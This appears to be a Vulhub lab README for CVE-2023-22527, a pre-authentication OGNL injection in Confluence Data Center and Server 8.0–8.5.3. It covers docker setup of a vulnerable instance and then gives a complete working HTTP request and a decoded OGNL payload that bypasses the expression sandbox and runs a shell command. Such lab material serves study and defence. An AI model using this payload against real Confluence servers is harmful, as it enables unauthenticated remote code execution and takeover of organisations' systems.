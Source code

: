 # Confluence Pre-Auth Remote Code Execution via OGNL Injection (CVE-2023-22527)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

A OGNL injection vulnerability on versions (8.0 to 8.5.3) of Confluence Data Center and Server allows an unauthenticated attacker to achieve RCE on an affected instance.

References:

- <https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html>
- <https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/>

## Vulnerable Environment

Execute following command to start a Confluence Server 8.5.3:

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.

Following [this guide](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396) to complete the installation.

On the database configuration page, fill in the form with database address `db`, database name `confluence`, username `postgres`, password `postgres`.

![](1.png)

## Exploit

Simplely send following request to execute arbitrary commands inside an craft OGNL expression and get the response:

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

![](2.png)

After the version 7.18.0, Confluence introduced a `isSafeExpression` function to protect OGNL injection. Security researcher [Alvaro Muñoz](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/) find a way to bypass it through `#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(String, Object)`, the full decoded payloads are here:

```
'+(#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"})),{}))+'
```
